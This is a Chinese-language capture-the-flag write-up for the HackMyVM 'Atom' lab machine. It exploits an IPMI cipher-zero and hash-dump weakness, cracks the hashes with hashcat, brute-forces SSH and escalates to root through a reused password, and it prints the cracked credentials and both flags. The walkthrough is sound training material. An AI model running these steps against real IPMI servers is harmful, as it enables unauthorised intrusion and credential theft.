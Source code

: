 # Atom

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=Atom

[video]()

## Ip

192.168.5.39

## Scan

tcp 上没开放端口，udp 上开放了 623/udp open asf-rmcp 是一种 IPMI 协议，在 msf 中有这样的扫描模块：auxiliary/scanner/ipmi/ipmi_cipher_zero 确认存在漏洞之后，可以使用这个模块 dump 枚举出的用户的密码 auxiliary/scanner/ipmi/ipmi_dumphashes (参考链接 https://hacktricks.boitatech.com.br/pentesting/623-udp-ipmi)

```
Hash for user 'admin' matches password 'cukorborso'
```

使用获得的凭据进行 ssh 登陆，不行。在用上面的这个凭据，在获取一下 user list：

```
sudo apt install ipmitool
ipmitool -I lanplus -H 192.168.5.40 -U admin -P cukorborso user list|awk -F ' ' '{print $2}'|grep -v 'true' > name.txt
```

将获得的用户名和哈希保存到 dump 文件，进行处理：

```
cat dump|awk -F ' ' '{print $8}'|awk -F ':' '{print $2":"$3}' > hash1
```

然后用 hashcat 7300 模式进行破解：

```
hashcat -a 0 -m 7300 hash1 /usr/share/wordlists/rockyou.txt --potfile-disable
```

然后将结果保存，进行处理，拿到最后一个字段：

```
cat out|awk -F ':' '{print $3}' > pass
```

然后将上面获得的 user 和 pass 进行 ssh 爆破,找到 1 个登陆凭据：

```
[22][ssh] host: 192.168.5.40   login: onida   password: jiggaman
```

直接拿到 user flag:

```
onida@atom:~$ cat user.txt
f75390001fa2fe806b4e3f1e5dadeb2b
```

在 /var/www/html 目录中发现 atom-2400-database.db ，查看其内容，爆破 user 表种 atom 用户的密码为 madison ，尝试用密码 madison 切换到 root，切换成功。

root flag:

```
root@atom:~# cat root.txt
d3a4fd660f1af5a7e3c2f17314f4a962
```
